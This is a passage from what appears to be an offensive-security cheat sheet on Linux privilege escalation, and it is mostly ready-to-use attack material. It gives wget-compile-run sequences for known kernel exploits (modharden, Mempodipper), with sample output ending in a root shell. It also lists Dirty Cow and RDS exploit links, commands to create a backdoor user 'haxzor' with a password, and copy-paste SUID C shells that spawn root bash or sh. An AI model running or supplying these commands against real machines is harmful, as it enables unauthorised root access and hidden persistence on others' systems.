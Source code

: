     ```shell
    wget -O i-can-haz-modharden.c http://www.exploit-db.com/download/14814
    $ gcc i-can-haz-modharden.c -o i-can-haz-modharden
    $ ./i-can-haz-modharden
    [+] launching root shell!
    # id
    uid=0(root) gid=0(root)
    ```
  - CVE-2010-3904 - Linux RDS Exploit - Linux Kernel <= 2.6.36-rc8 [https://www.exploit-db.com/exploits/15285/](https://www.exploit-db.com/exploits/15285/)
  - CVE-2012-0056 - Mempodipper - Linux Kernel 2.6.39 < 3.2.2 (Gentoo / Ubuntu x86/x64) [https://git.zx2c4.com/CVE-2012-0056/about/](https://git.zx2c4.com/CVE-2012-0056/about/)  
  - Linux CVE 2012-0056  

    ```shell
    wget -O exploit.c http://www.exploit-db.com/download/18411 
    gcc -o mempodipper exploit.c  
    ./mempodipper
    ```
- CVE-2016-5195 - Dirty Cow - Linux Privilege Escalation - Linux Kernel <= 3.19.0-73.8  [https://dirtycow.ninja/](https://dirtycow.ninja/) First existed on 2.6.22 (released in 2007) and was fixed on Oct 18, 2016  
- Run a command as a user other than root  
    - sudo -u haxzor /usr/bin/vim /etc/apache2/sites-available/000-default.conf
- Add a user or change a password
    ```shell
    /usr/sbin/useradd -p 'openssl passwd -1 thePassword' haxzor  
    echo thePassword | passwd haxzor --stdin
    ```
- Local Privilege Escalation Exploit in Linux

  - **SUID** (Set owner User ID up on execution)  
    Often SUID C binary files are required to spawn a shell as a superuser, you can update the UID / GID and shell as required. below are some quick copy and paste examples for various shells:

      ```shell
      # SUID C Shell for /bin/bash  

      int main(void){  
      setresuid(0, 0, 0);  
      system("/bin/bash");  
      }  

      # SUID C Shell for /bin/sh  

      int main(void){  
      setresuid(0, 0, 0);  
      system("/bin/sh");  
      }  

      # Building the SUID Shell binary  
      gcc -o suid suid.c  
      # For 32 bit:  
      gcc -m32 -o suid suid.c
      ```

